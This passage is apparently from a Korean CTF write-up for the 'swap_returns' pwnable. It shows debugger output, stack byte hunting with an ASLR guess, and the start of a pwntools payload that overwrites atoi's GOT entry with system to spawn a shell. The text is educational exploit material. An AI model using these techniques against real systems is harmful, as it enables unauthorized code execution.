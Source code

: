 하지만 값이 제대로 써지지 않아 디버깅을 해보니, `buf`를 `atoi()`이후 0으로 밀어버리는 instruction이 있었다.

어쩔 수 없이 원하는 바이트 코드를 stack 주변에서 찾아서 조합한 후 GOT와 swap하는 방향으로 payload를 작성했다.

``` bash
gef➤  p system - atoi
$1 = 0xd730
gef➤  p system
$2 = {int (const char *)} 0x7ffff7ddad70 <__libc_system>
gef➤  p atoi
$3 = {int (const char *)} 0x7ffff7dcd640 <__GI_atoi>
```

`system`과 `atoi`의 offset 차이는 `0xd730`으로, 총 2.5(?)바이트를 덮어야하는 것 처럼 보이지만,

```
gef➤  p system
$1 = {int (const char *)} 0x7fc72ec5dd70 <__libc_system>
gef➤  p atoi
$2 = {int (const char *)} 0x7fc72ec50640 <__GI_atoi>
```

ASLR이 1/16 확률로 `atoi`의 하위 2바이트를 `0x0640`에 로드했을 경우에 `system`과 `atoi`의 주소 차이는 단 2바이트밖에 차이가 나지 않는다.

그래서 위 예시처럼 `system`의 하위 2바이트가 `0xdd70`일 경우를 생각하고 stack을 뒤져봤는데, 웬걸 `0xdd`가 아무리 찾아도 없었다.

어차피 `0xdd70`이나 `0xed70`이나 `0xfd70`이나 확률은 똑같고, 2바이트 차이나는 것도 똑같으므로 다른 값은 있나 확인해본 결과, `0xed`를 찾았다.

```
gef➤  x/b $rsp - 0xa2f
0x7ffd39354481: 0x70
gef➤  x/b $rsp - 0xe48
0x7ffd39354068: 0xed
```

결과적으로 `atoi`를 `system`으로 덮게 되면 `system(&buf)` 형식으로 호출을 할 수가 있게 되는데, `buf`에 `"sh"`를 넣으면 쉘을 실행할 수 있다.

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "swap_returns"
LIBRARY = "libc.so.6"

bp = {
    '_set' : 0x40092C,
    'swap' : 0x400984,
    '_exit' : 0x4009b2,
    'atoi_of_read_int' : 0x4008c2,
    'free_space' : 0x601060,
}

gs = f'''
b *{bp['atoi_of_read_int']}
!b *{bp['_set']}
!b *{bp['swap']}
!b *{bp['_exit']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def _set(s, first, second):
    s.send(b"1")
    s.recv()
    s.sendline(str(first).encode())
```